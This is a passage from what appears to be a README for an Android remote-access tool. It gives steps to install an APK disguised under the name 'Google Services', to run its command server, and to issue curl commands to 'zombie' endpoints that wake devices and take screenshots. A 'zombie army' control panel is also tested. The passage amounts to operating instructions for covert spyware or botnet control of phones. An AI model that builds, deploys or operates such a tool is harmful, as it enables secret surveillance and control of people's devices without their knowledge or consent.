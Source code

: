 ### Install Release APK
```bash
# Transfer to device and install manually
# Or use ADB:
adb install remote-system-release.apk
```

### Verify Installation
1. Launch **"Google Services"** app (disguised name)
2. Check that app requests permissions
3. Verify server connection in status

## 🧪 Testing Ghost Resurrection

### 1. Start Server
```bash
cd /workspaces/Remote-System-APK/SERVER/simple-server/
npm install
npm start
```

### 2. Test Device Registration
1. Launch Android app
2. Check server logs for device registration
3. Look for FCM token registration

### 3. Test Remote Commands
```bash
# Get registered devices
curl http://localhost:3000/api/zombie/devices

# Wake up device
curl -X POST http://localhost:3000/api/zombie/wake/YOUR_DEVICE_ID

# Send screenshot command
curl -X POST http://localhost:3000/api/zombie/YOUR_DEVICE_ID/command \
  -H "Content-Type: application/json" \
  -d '{"command": "screenshot"}'
```

### 4. Test Master Control Panel
1. Open http://localhost:3000/master-control-panel.html
2. Verify device appears in zombie army grid
3. Test command execution from dashboard

## 🎯 Advanced Build Options

### Custom Build Variants
Edit `app/build.gradle.kts` to add custom build variants:
